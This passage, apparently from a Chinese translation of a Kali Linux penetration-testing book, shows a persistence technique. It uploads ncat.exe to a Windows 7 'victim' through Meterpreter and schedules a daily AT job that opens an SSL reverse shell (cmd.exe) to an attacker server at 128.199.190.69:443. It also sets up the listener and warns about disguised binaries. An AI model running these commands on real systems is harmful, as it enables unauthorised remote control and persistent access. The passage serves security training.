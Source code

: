 我们现在连接到受害者机器，并向受害者上传 Ncat 的副本。从会话中可以看出，这是一次内部攻击。`ncat.exe`文件位于 Kali 的`/usr/share/ncat-w32/`目录中。连接后，在 Meterpreter 中运行以下命令：

```
upload /usr/share/ncat-w32/ncat.exe C:/windows/ncat.exe  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/4004b209-0f77-40bb-80cb-e3ce44e863da.png)

这将把 Ncat 可执行文件传输到受害者系统。请注意，我们在使用`/`而不是`\`作为目录斜杠。由于您使用的是 Linux，必须使用正斜杠**/**。如果您使用**\**并运行命令，您会发现目录名称会连在一起，文件将无法正确上传。

转到 Windows 7 受害者，我们可以在`Windows`目录中看到该文件：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/778d4198-086b-4d65-94ac-42d33336a070.png)

# 设置 NetCat 客户端

自 Windows NT 3.14 以来，Windows 一直有一个命令行工具来运行计划任务。这个工具叫做`AT`命令。这个命令与 Linux 或 UNIX 上可用的`cron`命令非常相似。您可以设置时间、日期和运行任何命令行工具或脚本的次数。因此，使用您的 Meterpreter 连接`shell`到系统：

```
shell  
```

您现在在受害者系统中。输入以下命令：

```
AT 5:00PM ncat.exe -nv 128.199.190.69 443 -ssl -e cmd.exe  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/8b165c75-b0db-46fc-8286-c7a655ad0d07.png)

这设置了一个每天下午 5:00 运行的作业。它将使用以下变量运行`ncat.exe`可执行文件。它正在调用攻击服务器`128.199.190.69`的端口`443`。`-ssl`标志告诉连接使用 SSL。`-e cmd.exe`标志告诉可执行文件通过连接运行`cmd.exe`可执行文件。

在下午 5:00 之前，我们使用各种枢纽登录到我们的恶意服务器，并启动`ncat`进入监听模式，等待下午 5:00 到来。

请注意，我们在这里连接到`//rogue3`并运行以下命令：

```
ncat -nvlp 443 -ssl  
```

`-n`标志告诉系统不使用 DNS。`-v`告诉系统使输出详细，这样您可以看到输入和输出。`-l`告诉 Ncat 监听。`-p`告诉 Ncat 在端口`443`上监听，`-ssl`告诉 Ncat 使用 SSL 加密会话：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/e1b49e7f-fac4-48f5-9702-2df3bcf23a15.png)

我们现在已经连接到我们黑客入侵的 Windows 7 机器，具有完整的管理员访问权限，这个漏洞利用将在每天下午 5:00 准备好使用，而无需对网络进行进一步攻击。

警告！

一个真正的攻击者会将 Ncat 的名称更改为更模糊和难以在您的文件系统中发现的名称。小心您的系统上存在两个`calc.exe`或`notepad.exe`。一个在奇怪的地方很可能是 Ncat 或我们接下来要构建的另一种类型的漏洞利用。

# 使用 Metasploit 打电话回家
